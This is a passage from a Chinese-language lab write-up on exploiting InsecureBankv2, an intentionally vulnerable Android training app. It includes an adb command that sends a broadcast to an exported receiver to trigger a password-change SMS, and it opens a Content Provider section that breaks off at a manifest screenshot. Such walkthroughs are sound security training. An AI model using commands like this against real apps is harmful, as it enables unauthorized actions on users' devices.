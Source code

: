   + 再次打开 `InsecureBankv2`并回到 `platform-tools` 文件夹，命令行执行以下命令：

    ```bash
    adb shell am broadcast -a theBroadcast -n com.android.insecurebankv2/com.android.insecurebankv2.MyBroadCastReceiver --es phonenumber 5554 –es newpass Dinesh@123!
    ```

    ![4.4ExploitingAndroidBroadcastReceiversResult](imgs/4.4ExploitingAndroidBroadcastReceiversResult.PNG)

  - 收到短信
  ![4.5ExploitingAndroidBroadcastReceiversResult2](imgs/4.5ExploitingAndroidBroadcastReceiversResult2.PNG)

---

#### (5)Exploiting Android Content Provider

- 反编译
- 找到漏洞 
 
   `AndroidManifest.xml` 文件中的代码：

    ![5.1ExploitingAndroidContentProviderAndroidManifest](imgs/5.1ExploitingAndroidContentProviderAndroidManifest.PNG)
